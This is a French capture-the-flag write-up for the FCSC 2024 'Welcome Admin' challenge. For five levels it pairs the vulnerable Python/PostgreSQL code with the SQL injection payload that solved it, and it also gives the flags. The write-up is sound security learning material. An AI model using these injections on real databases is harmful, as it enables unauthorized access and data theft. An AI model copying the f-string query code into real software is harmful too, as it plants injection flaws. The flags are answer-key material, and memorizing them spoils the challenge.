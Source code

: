 # FCSC 2024
## Challenges :
Welcome Admin 1/2  
Welcome Admin 2/2

## Thème : Injection de SQL
## Welcome Admin 1/2  
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

## Welcome Admin 2/2
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

URL du serveur : https://welcome-admin.france-cybersecurity-challenge.fr/
Lien du serveur de l’archive container : 
https://france-cybersecurity-challenge.fr/files/e8c67b40e1e1a23305e8592a647e5756/welcome-admin.tar.xz?token=eyJ1c2VyX2lkIjozNDEsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE4OH0.Zhz9kg.gxNsCVdWeE4J0Wck30a0B0YfEbU

## Analyse des sources :
Serveur web écrit en Python avec une base Postgres
On peut le lancer en locale : 
docker-compose up --build
Le serveur est alors disponible en 127.0.0.1 :8000

Le code est assez simple , il y a 5 url qui correspondent aux 5 niveaux d’administration. 
Chaque niveau d’administration correspond à une injection SQL plus ou moins tordu	




## Level 1 :
Code python :
```python
cursor.execute(f"SELECT '{token}' = '{password}'")
```

Injection :
```
' OR '1' = '1
```

Flag : FCSC{94738150696e2903c924f0079bd95cd8256c648314654f32d6aaa090846a8af5}

## Level 2 :
Code python :
```python

  cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$ 
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
```

La problématique est d’afficher le mot de passe aléatoire de la procédure. 
On utilise la table pg_proc & on fait un substring pour récupérer la valeur.

Injection :
```
t')  UNION (select SUBSTRING(pg_get_functiondef(oid) FROM 178 FOR 32) from pg_proc where proname = 'check_password') LIMIT ('2
```

## Level 3 :
Code python :
```python

cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```

La problématique est ici assez tordue. Il faut que la deuxième de la colonne de requête soit régale au token.
En explorant les fonctions tordu de la doc de postgres, je suis tombé sur current_query() qui permet de récupérer cette requête.
Injection :
```
' || SUBSTRING(current_query() FROM 9 FOR 32) --
```

## Level 4 :
Code python :
```python

cursor.execute(f"""SELECT md5(random()::text), '{password}';""")
```

Il est probablement impossible de deviner le md5(random() ::text)
Le plus est donc de faire qu’on injecte une nouvelle ligne de données et on ignore la première avec le UNION SELECT … OFFSET

Injection :
```
' UNION SELECT 'toto', 'toto' OFFSET 1 –
```


## Level 5 :
Code python :
```python

@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()

    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );

        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    print(row)
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```


Le token, le plus tordu à récupérer.  Il est stocké dans une table avec un nom aléatoire et un nom de colonne aléatoire avec un contenu aléatoire.
Difficulté, on ne peut pas normalement pas faire de requête avec des nom variabilisé.
Il me fallait donc un sorte de fonction eval qui consomme un string pouvant contenir une requête.
Je suis tombé sur les ts_rewrite , to_tsquery dans la doc. 
Recherche rapide sur google pour trouver exemple d’utilisation sous forme d’exploit. Je tombe sur :
https://www.synacktiv.com/publications/dont-fear-the-bark-tsrewrite-to-dodge-the-mark

Le job est presque fait :
Injection :
```
' UNION SELECT SUBSTRING(CAST(ts_rewrite('lock', 'SELECT to_tsquery(''lock''), to_tsquery(' || (SELECT column_name || ') FROM ' || table_name FROM information_schema.columns WHERE column_name like 'col\_%' and table_name like 'table\_%' LIMIT 1)) AS TEXT)||'', 2, 32) OFFSET 1  --
```

Enfin, le flag :
```
FCSC{a380e590ae8ffe8da9bb86f27d05203b7f9d32dd37c833c2764097840848b3a2}
```
